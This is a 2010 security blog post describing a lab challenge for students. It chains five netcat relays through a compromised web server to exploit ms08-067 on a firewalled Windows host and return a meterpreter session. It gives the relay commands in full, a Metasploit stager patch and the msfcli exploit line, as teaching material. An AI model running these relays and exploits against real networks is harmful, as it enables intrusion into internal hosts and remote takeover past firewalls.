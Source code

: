 ```yaml
---
id: 793
title: 'Five Relays and a Patch'
date: '2010-05-26T08:57:34-05:00'
author: 'Ron Bowes'
layout: post
guid: 'http://www.skullsecurity.org/blog/?p=793'
permalink: /2010/five-relays-and-a-patch
categories:
    - Hacking
    - Tools
---
```


Hey all,

We hired a new pair of [co-op students](http://coop.cs.umanitoba.ca) recently. They're both in their last academic terms, and are looking for a good challenge and to learn a lot. So, for a challenge, I set up a scenario that forced them to use a series of netcat relays to compromise a target host and bring a meterpreter session back. Here is what the network looked like:  
![](http://www.skullsecurity.org/blogdata/fiverelays-1.png "Firewall Rules")  
To describe in text:

- They have already compromised a Web server with a non-root account
- The Web server has no egress filtering, but full ingress filtering, and they aren’t allowed to install anything (fortunately, it already had Netcat)
- The target server has both egress and ingress filtering, and is not accessible at all from the Internet, but the Web server can connect to it on 139/445 (which are vulnerable to ms08-067). The target can also connect back to the Web server on any port.

The challenge was to exploit the target server with ms08-067 and bring a meterpreter session back to the attacker server.  
  
I had expected this would require 3-4 netcat relays, but, after helping them to get this working, we ended up with 5 relays for a variety of reasons, plus a minor patch to Metasploit! Maybe we did it the hard way, and maybe we didn’t need all those relays, but it was fun to set up and satisfying to get working.

Anyway, I’ll let them explain what they did!

## Five relays and a patch

The image below shows the various netcat relays we ended up using, in order of execution.

![](/blogdata/fiverelays-2.png "Relays")

The first goal was to find a way to bypass the firewalls. Metasploit was using default ports 445 for outgoing and 4444 for incoming connections, and since we can't connect to either of those ports on the Web Server (WEB), we needed the WEB to establish a connection back to us. Fortunately WEB can connect to TARGET on port 445, and can receive a connection back on any port. Thus 2 netcats are running on the WEB are:

```
 nc HACKER 1234 -vv < pipe4 |  nc TARGET 445 -vv > pipe4
```

This command forwards the traffic coming in on port 1234 from the HACKER to TARGET port 445 (Relay #4).

```
 nc -l -p 4444 -vv < pipe2 | nc HACKER 4442 -vv > pipe2
```

This command listens for the meterpreter session back from TARGET on port 4444 and relays it to HACKER on port 4442 (Relay #2).

Why does WEB connect on arbitrary port 1234 instead of connecting to Metasploit's port 445? Well, Metasploit doesn't listen on that port, it needs to initiate the connection. So we need a netcat relay running on HACKER to listen for connection from Metasploit and connect it with the incoming connection from the WEB (Relay #3):

```
nc -l -p 1234 -vv < pipe3 | nc -l -p 445 > pipe3
```

As you might have noticed the WEB is connecting back on port 4442, not 4444 on which Metasploit is listening (Relay #2). They cannot be connected directly, as WEB will establish connection immediately when it starts and Metasploit will get confused since its waiting on Meterpreter session and fail. So we need a relay listening on port 4442 on the HACKER and connecting it back to Metasploit, right? Well, not that simple.

```
 nc -l -p 4443 -vv < pipe1 | nc -l -p 4442 -vv > pipe1
```

This command will listen for incoming connection from WEB on port 4442 and relay it to port 4443 when that connection is established (Relay #1). This gives Metasploit time to trigger an exploit and we only establish a final connection to Metasploit once it did by running a final command:

```
nc HACKER 4444 -vv < pipe5 | nc HACKER 4443 -vv > pipe
```

This simply establishes a connection to the relay running on the same computer on port 4443 and sends it to Metasploit on port 4444 (Relay #6).

The biggest challenge was getting the timing of the last command right. We needed to activate it after Metasploit starts listening for the reverse\_tcp stager but before it sends stage data. If stage data was sent before the entire link was created,the vulnerability would be exploited, but the stage would fail. In order to get the timing right for the final command, a modification to the *stager.rb* in the *lib/msf/core/payload/* folder was necessary. We added a three-second delay after the vulnerability has been triggered and before the stage data was sent in order to give us time to link the netcat relays together for the connection back.

This is the patch against the Metaploit version on the Backtrack 4 cd (it'll likely fail against the HEAD revision due to a number of changes):

```
Index: stager.rb
===================================================================
--- stager.rb   (revision 8091)
+++ stager.rb   (working copy)
@@ -100,6 +100,9 @@
                                p = (self.stage_prefix || '') + p
                        end

+            print_status("Delaying for three seconds (Start your nc relay).")
+            Kernel.sleep(3)
+
                        print_status("Sending stage (#{p.length} bytes)")

                        # Send the stage
@@ -164,4 +167,5 @@
        #
        attr_accessor :stage_prefix
```

Now that everything should be (theoretically) working, we had to make sure to start netcat relays in the right order to make sure they can establish connections, and we had to wait before executing #6 until #2 received a connection established message. The -vv command is optional for all nc instances except in #2, where they are used to determine when to execute #6. We first start all the listener relays and then start the relays that establish connections. The commands were executed in the order provided

1. This command is run on the HACKER:
```
nc -l -p 4443 -vv < pipe1 | nc -l -p 4442 -vv > pipe1
```

3. This command was run on the WEB:
```
nc -l -p 4444 -vv < pipe2 | nc HACKER 4442 -vv > pipe2
```

5. HACKER:
```
nc -l -p 1234 -vv < pipe3 | nc -l -p 445 > pipe3
```

7. WEB:
```
nc HACKER 1234 -vv < pipe4 | nc TARGET 445 -vv > pipe4
```

9. Now that we have a connection to the target we run an exploit:
```
./msfcli exploit/windows/smb/ms08_067_netapi 
 PAYLOAD=windows/meterpreter/reverse_tcp RHOST=HACKER LHOST=WEB E
```

11. Last command is run on HACKER when Relay #2 displays a detected connection:
```
nc HACKER 4444 -vv < pipe5 | nc HACKER 4443 -vv > pipe
```